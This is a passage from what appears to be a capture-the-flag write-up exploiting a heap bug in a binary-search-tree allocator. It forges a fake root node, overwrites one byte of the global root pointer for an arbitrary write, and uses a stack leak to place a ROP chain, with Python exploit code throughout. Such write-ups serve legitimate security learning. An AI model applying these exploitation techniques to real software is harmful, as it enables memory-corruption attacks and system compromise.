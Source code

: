 So we can overwrite anything in the binaries address space and also the heap! My first thought was to just write over another node to make the `chunk_ptr` point to some arbitrary location, but ASLR would force us to need a heap leak. There is however no PIE! After some thinking I remembered the `root` global, the place that stores the address of the root node in the binary search tree, is in the `.bss` section at a known address. It will have a heap address stored in it pointing to the root node. We would like to overwrite the `chunk_ptr` field of some node. Things get a bit convoluted here, but if we allocate a seperate node, we can write our own node struct inside of that chunk. Both the raw chunks and the nodes are stored on the heap and will not be that far from eachother in memory. This means the address of our fake node, which can have any `chunk_ptr` value we desire, is quite close to the address of the actuall `root` node. This means we only need to overwrite the last byte of the address stored in `root` to point it to our malicious root node.

Here is a bit of python to setup and execute this crazy scheme:
```python
# Setup forged root node
normal = create(0x28)
fake_root = p64(0)
fake_root += p64(0)
fake_root += p64(0xdeadbeef) # Fake key
fake_root += p64(0xffffff) # Fake size
fake_root += p64(target) # Fake chunk_ptr
write(normal, 0, fake_root)


# Create faulty node with huge size field and force it in cache
bigboy = create(0xffffffff)
write(bigboy, 0, b'ABCDEFG!!!')

# Zero chunk_ptr in stale cache entry
delete(bigboy)

# Write over root to point to fake_root
write(bigboy, 0x4040e8, p8(0xb0))
```
We know what to change the last byte of the `root` to because ASLR will randomize everything but the last 3 nibbles of the address, so the last byte (2 nibbles) of our desired fake root are constant and we can check it using gdb. So now we can write to whatever address we put in `target` by writing to the key `0xdeadbeef`. The program will search for that key by starting at the root, which we have set to have that key. Then the program will write our data to the address stored in the `chunk_ptr` field, which we have set to be `target`.

This is where our stack leak will come in, as to write a ROP chain to the stack we need to know where it is. Again we can just check this in gdb by breaking at the `ret` instruction of the writing function and seeing where the stored return address is. Then we find its offset relative to the leak and we can then recalculate it every time. 
```python
# Collect leak and calculate target address
p.recvuntil(b'for you: ')
choice_addr = int(p.recvline().strip(), 16)
log.info(f'Leaked stack: {hex(choice_addr)}')
target = choice_addr - 0x44c
log.info(f'Writing chain to {hex(target)}')
```
